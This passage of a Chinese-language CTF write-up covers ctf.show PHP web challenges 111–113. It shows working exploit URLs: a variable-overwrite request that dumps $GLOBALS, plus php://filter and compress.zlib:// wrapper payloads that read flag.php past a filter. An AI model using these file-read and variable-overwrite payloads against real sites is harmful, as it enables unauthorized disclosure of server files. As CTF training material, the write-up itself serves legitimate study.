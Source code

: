 输出

```php
array(6) { ["_GET"]=> array(0) { } ["_POST"]=> array(0) { } ["_COOKIE"]=> array(0) { } ["_FILES"]=> array(0) { } ["GLOBALS"]=> array(6) { ["_GET"]=> array(0) { } ["_POST"]=> array(0) { } ["_COOKIE"]=> array(0) { } ["_FILES"]=> array(0) { } ["GLOBALS"]=> *RECURSION* ["flag"]=> string(10) "flagishere" } ["flag"]=> string(10) "flagishere" }
```

题目中很明显的有 `include("flag.php");`, 而且 `eval()` 相关操作是在 `getFlag()` 内进行的

那么我们可以猜测 flag.php 中存在这诸如 `$flag="xxx"` 的定义, 但我们不知道变量名具体是什么, 而定义的这些变量, 相对于 `getFlag()` 来说是全局变量

通过变量覆盖输出 `$GLOBALS` 的内容

```
http://719821e6-a9d2-4195-918c-695b9b28f06c.challenge.ctf.show/?v1=ctfshow&v2=GLOBALS
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208102215021.png)

得到 flag

## web112

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208111936411.png)

`highlight_file()` 支持伪协议

```
http://d47140fa-230a-4c3f-bfd4-e45c675ad041.challenge.ctf.show/?file=php://filter/resource=flag.php
```

得到 flag

hint 里面除了 `php://filter` 还有一个 `compress.zlib://flag.php`

[https://www.php.net/manual/zh/wrappers.php](https://www.php.net/manual/zh/wrappers.php)

其中的压缩流

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208111940617.png)

本地测试下来只有 `compress.zlib://` 可以**直接**读任意文件 (或者文件包含), 不知道为什么...

## web113

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208111950230.png)

filter 被过滤了, 测试了 php://input 发现并不能执行命令

不过可以通过上一题学到的 `compress.zlib://` 读取文件

```
http://5f60bee4-67bc-4087-a932-f56f64262afc.challenge.ctf.show/?file=compress.zlib://flag.php
```

hint 给出的 payload
